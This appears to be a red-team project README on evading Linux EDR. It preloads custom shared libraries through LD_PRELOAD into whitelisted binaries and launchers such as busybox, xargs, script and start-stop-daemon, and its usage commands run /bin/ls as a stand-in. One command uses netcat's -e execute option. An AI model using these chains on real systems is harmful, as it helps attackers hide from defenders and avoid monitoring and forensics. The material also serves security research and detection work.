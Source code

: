 Behavioral Manipulation of Whitelisted Executables in Linux for EDR Evasion

Scenario:

Endpoint Detection and Response solutions have landed in Linux. With the increasing footprint of Linux machines present in in data centers threat actors have retooled to face the defensive capabilities. EDRs have their challenges in covering Linux landscape, and as such they come in various designs and address defense differently. Some focus on sandboxing, others place more effort on execution heuristics, yet others provide facilities to create restricted shells and exist in support of an enterprise policy, aiding with whielisting approved executables on systems. 

On a recent engagement  our team  was faced with overcoming a commercial EDR on Linux. We wanted to share a few techniques  

The idea is to: 
- ride approved binaries without modifying them or injecting them at runtime
- start them preloaded but without any details of the internal workings 
- use library preloading in novel ways
- split and scatter offensive functionality to fool heuristics, forensics and gain func via chaining
- widening the shim with non-native functionality for rapid prototyping. 


- Hooking an unknown (or non-specific) API assumes 
 - you know how the target API workings
 - you have ability to target it without detection (exec or external watcher)
 - you have the ability to interoperate claencly, fully, implment filter and to extend hooks
 - you also may need to have inspection tooling to hook *that specific use case*, in adveresarial env while the mom is watching


What is you can be agnostic to the application you are tryint to control
- Inject at the start
- Inject generically 
- Expand features out of band
	- dynamic loading
	- weak ref loading

- DFIR lifting target executable gets non-modified, clean exe


## Usage

`LD_PRELOAD=lib/weakrefso.so:lib/weakrefso2.so bin/main_weakref`

cxa: `LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /usr/bin/java`

`/bin/busybox /bin/ls`
` LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  ls `
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  find /bin -name cat -exec /bin/ls / \; `
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  nc -f /dev/pts/0  -e /bin/ls`
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  openvt -c 5  -w /bin/ls > /tmp/ls.out`

1. 
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  run-parts  --regex '^main_.*$' ./bin/`

-- No /bin/ls ---
2. `mkdir /tmp/shadowrun; ln -s /bin/ls /tmp/shadowrun/ls; LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  run-parts   /tmp/shadowrun/`

`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so script -c /bin/ls`
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so busybox setsid  -c /bin/ls`
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so start-stop-daemon -x /bin/ls --start`
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so taskset 0x00000001 /bin/ls`
`LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so echo | xargs /bin/ls`

`echo | LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  xargs /bin/ls`

I mean ....
`echo | LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  xargs /bin/busybox xargs xargs /bin/busybox /bin/ls`
`echo | LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox timeout 1000 /bin/ls`
`echo | LD_PRELOAD=./lib/weakrefso.so:./lib/weakrefso2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox time /bin/ls`


## TODO
- fully clean LD_PRELOAD  in ctor of an injector )libctx)
- weak attributes modules load from libctx
- multilib loading in LD_PRELOAD
- __gmon_start__ (w) https://github.com/lattera/glibc/blob/master/csu/gmon-start.c
	[ref] (https://stackoverflow.com/questions/12697081/what-is-gmon-start-symbol)
- JNI LD_PRELOAD
- execve LD_PRELOAD putenv?
